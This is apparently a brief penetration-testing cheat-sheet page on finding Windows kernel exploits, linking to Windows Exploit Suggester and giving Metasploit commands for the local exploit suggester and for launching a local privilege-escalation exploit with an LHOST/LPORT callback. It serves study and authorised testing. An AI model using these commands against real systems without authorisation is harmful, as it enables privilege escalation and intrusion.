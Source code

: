 # Kernel Exploits

## Windows Exploit Suggester

You can run the windows exploit suggester script to check for missing patches.

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

## Metasploit Exploit Suggester

Not sure if it's the same one as the Windows Exploit Suggester, but there's also one built into metasploit.

Once you have a metasploit session, you can run the exploit suggester:&#x20;

```
use post/multi/recon/local_exploit_suggester
set SESSION SESSION_NUMBER_HERE
run 
```

Then you can use the exploit it found:&#x20;

```
use exploit/windows/local/EXPLOIT_NAME_HERE 
set SESSION 1 
set LHOST YOUR_IP_HERE 
set LPORT SOME_OPEN_PORT 
run
```
